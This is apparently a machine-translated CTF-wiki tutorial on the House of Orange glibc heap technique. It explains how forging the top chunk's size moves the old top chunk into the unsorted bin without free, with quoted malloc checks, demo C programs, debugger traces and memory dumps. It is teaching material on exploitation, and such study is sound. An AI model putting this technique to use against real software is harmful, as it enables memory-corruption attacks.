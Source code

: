 [EN](./house_of_orange.md) | [ZH](./house_of_orange-zh.md)
# House of Orange





## Introduction
House of Orange differs from other House of XX methods in that it comes from a topic of the same name in Hitcon CTF 2016. Since this method of utilization has not appeared in the previous CTF topic, the use of a series of derivative topics that emerged later is called House of Orange.


## Overview
The use of House of Orange is quite special. First, the target vulnerability is a vulnerability on the heap. But the special thing is that there is no free function or other function that releases the heap block. We know that you generally want to use heap vulnerabilities, you need to perform malloc and free operations on the heap, but you can't use the free function in House of Orange utilization, so the House of Orange core is free to exploit the exploit.




## Principle
As we mentioned earlier, the core of House of Orange is to get a free unsorted bin without a free function.
The principle of this operation is simply that when the top heap size of the current heap is insufficient to meet the size of the application allocation, the original top chunk will be released and placed in the unsorted bin. This can be done without the free function. Get unsorted bins.


Let's take a look at the details of this process. Let's assume that the current top chunk does not meet the allocation requirements of malloc.
First, the `malloc` call in the program will be executed into the `_int_malloc` function of libc.so. In the `_int_malloc` function, we will check whether the fastbin, small bins, unsorted bin, and large bins can meet the allocation requirements. Size issues are not met. Next, the `_int_malloc` function will attempt to use the top chunk, where the top chunk will not meet the allocation requirements, so the following branch will be executed.


```
/*
Otherwise, relay to handle system-dependent cases
*/
else {
      void * p = sysmalloc (nb, av);
      if (p != NULL && __builtin_expect (perturb_byte, 0))
	    alloc_perturb (p, bytes);
      return p;
}
```



At this point ptmalloc can not meet the user's request for heap memory operations, you need to execute sysmalloc to apply for more space to the system.
But for the heap there are two distribution methods of mmap and brk, we need to make the heap expand in the form of brk, then the original top chunk will be placed in the unsorted bin.


In summary, we have to implement brk to extend the top chunk, but to achieve this goal we need to bypass some checks in libc.
First, the size of malloc cannot be greater than `mmp_.mmap_threshold`
```
if ((unsigned long)(nb) >= (unsigned long)(mp_.mmap_threshold) && (mp_.n_mmaps < mp_.n_mmaps_max))
```

If the chunk size to be allocated is greater than the mmap allocation threshold, the default is 128K, and the memory block allocated by the current process using mmap() is less than the set maximum value, and the mmap() system call will be used to directly request memory from the operating system.


There is a check for the top chunk size in the sysmalloc function, as follows


```
assert((old_top == initial_top(av) && old_size == 0) ||
	 ((unsigned long) (old_size) >= MINSIZE &&
	  prev_inuse(old_top) &&
	  ((unsigned long)old_end & pagemask) == 0));
```

This checks the legitimacy of the top chunk. If this function is called for the first time, the top chunk may not be initialized, so the old_size may be 0.
If the top chunk has already been initialized, then the size of the top chunk must be greater than or equal to MINSIZE, because the top chunk contains fencepost, so the top chunk must be larger than MINSIZE. Second, the Top chunk must identify that the previous chunk is in the inuse state, and the end chunk's end address must be page-aligned. In addition, the top chunk removes the fencepost size must be smaller than the required chunk size, otherwise the top chunk will be used to split the chunk in the _int_malloc() function.


Let's summarize the requirements for forged top chunk size


1. Forged size must be aligned to the memory page


2.size is greater than MINSIZE (0x10)


3.size is smaller than the chunk size + MINSIZE (0x10) applied afterwards


The prev inuse bit of 4.size must be 1


After that, the original top chunk will execute `_int_free` and smoothly enter the unsorted bin.




##example


Here is a sample program that simulates an overflow overlay to the size field of the top chunk. We tried to reduce the size to achieve the brk extension and put the original top chunk into the unsorted bin.


```
#define fake_size 0x41

int main(void)
{
    void * ptr;

    ptr = malloc (0x10);
    ptr = (void *) ((int) ptr + 24);
    *((long long*)ptr)=fake_size; // overwrite top chunk size

    malloc(0x60);

    malloc(0x60);
}
```

Here we cover the size of the top chunk as 0x41. Then apply for a heap larger than this size, which is 0x60.
But when we execute this example, we find that this program can't be used successfully because the assert is not satisfied and throws an exception.


```
[#0] 0x7ffff7a42428 → Name: __GI_raise(sig=0x6)
[#1] 0x7ffff7a4402a → Name: __GI_abort()
[#2] 0x7ffff7a8a2e8 → Name: __malloc_assert(assertion=0x7ffff7b9e150 "(old_top == initial_top (av) && old_size == 0) || ((unsigned long) (old_size) >= MINSIZE && prev_inuse (old_top) && ((unsigned long) old_end & (pagesize - 1)) == 0)", file=0x7ffff7b9ab85 "malloc.c", line=0x95a, function=0x7ffff7b9e998 <__func__.11509> "sysmalloc")
[# 3] 0x7ffff7a8e426 → Name: sysmalloc (nb = 0x70, av = 0x7ffff7dd1b20 <main_arena> )
```





## The correct example


Looking back at the conditions of the assert, we can see that the previously listed entries are satisfied except for the first one.


```
1. Forged size must be aligned to the memory page
```



What is alignment to a memory page? We know that modern operating systems are memory managed in units of memory pages. The size of a typical memory page is 4 kb. Then our forged size must be aligned to this size. The size of the top chunk before the overlay is 20fe1, and it is calculated that 0x602020+0x20fe0=0x623000 is aligned for 0x1000 (4kb).


```
0x602000:	0x0000000000000000	0x0000000000000021
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <== top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```

Therefore, our fake fake_size can be 0x0fe1, 0x1fe1, 0x2fe1, 0x3fe1, etc. for 4kb aligned size. However, 0x40 does not satisfy the alignment, so it cannot be utilized.


```
#define fake_size 0x1fe1

int main(void)
{
    void * ptr;

    ptr = malloc (0x10);
    ptr = (void *) ((int) ptr + 24);
    
    *((long long*)ptr)=fake_size;

    malloc(0x2000);

    malloc(0x60);
}

```



After the allocation, we can observe that the original heap has passed the brk extension.


```
//The original heap
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

//The extended heap
0x0000000000602000 0x0000000000646000 0x0000000000000000 rw- [heap]
```



Our application was assigned to 0x623010 and the original heap was placed in the unsorted bin


```
[+] unsorted_bins[0]: fw=0x602020, bk=0x602020
 →   Chunk(addr=0x602030, size=0x1fc0, flags=PREV_INUSE)
```



Because there is a block in the unsorted bin, we will cut this block the next time we allocate it.


```
 malloc(0x60);
 0x602030

[+] unsorted_bins[0]: fw=0x602090, bk=0x602090
 →   Chunk(addr=0x6020a0, size=0x1f50, flags=PREV_INUSE)
```



You can see that the allocated memory is cut from the unsorted bin, the memory layout is as follows


```
0x602030:   0x00007ffff7dd2208  0x00007ffff7dd2208 <== Unsorted bin list not cleared
0x602040:	0x0000000000602020	0x0000000000602020
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:   0x0000000000000000  0x0000000000001f51 <== cutting the remaining new unsorted bin
0x6020a0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x6020b0:	0x0000000000000000	0x0000000000000000
```





In fact, the main point of the house of orange is here, after the use of _IO_FILE knowledge, put it in the IO_FILE independent chapter to share.

